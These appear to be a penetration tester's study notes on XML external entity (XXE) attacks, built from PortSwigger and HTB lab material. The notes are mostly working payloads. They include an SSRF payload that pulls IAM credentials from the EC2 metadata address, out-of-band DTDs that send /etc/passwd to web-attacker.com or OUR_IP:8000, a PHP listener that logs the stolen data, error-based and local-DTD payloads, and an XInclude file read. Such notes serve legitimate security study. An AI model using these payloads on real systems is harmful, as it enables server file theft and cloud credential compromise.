 [[Local_DTD_XXE]]
## XXE with SSRF
### EC2 Misconfigurations
![[Pasted image 20250319143544.png]]
Some EC2 misconfiguration will use the default IP address which can be used to retrieve metadata, may be secret ones too.

```xml
<!DOCTYPE productId [
 <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
```

## Blind XXE
### Out-Of-Band XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "idz52f38rs745a9gd5ndm3iw3n9ex4lt.oastify.com"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### XLM Parameter Entities
`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://mqg2e7lmmqioe3awv51xazm3jupldb10.oastify.com"> %xxe; ]>`

### XLM Exfiltration
#### Portswigger Payload
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;
```
 The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

#### HTB Payload 
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```shell-session
alakin2504@htb[/htb]$ vi index.php # here we write the above PHP code
alakin2504@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

### Error-based
#### Portswigger
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;
```

#### HTB
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```xml
<!DOCTYPE foo [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
## Exploiting blind XXE by repurposing a local DTD
For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % custom_entity ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>`

You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>`

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine.
![[Pasted image 20250319192554.png]]
Redefine means you redefine an entity declared in the existing local dtd file, for example ISOamsa of this file.
## Unavailable DOCTYPE
### XInclude Attack
![[Pasted image 20250319170739.png]]
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

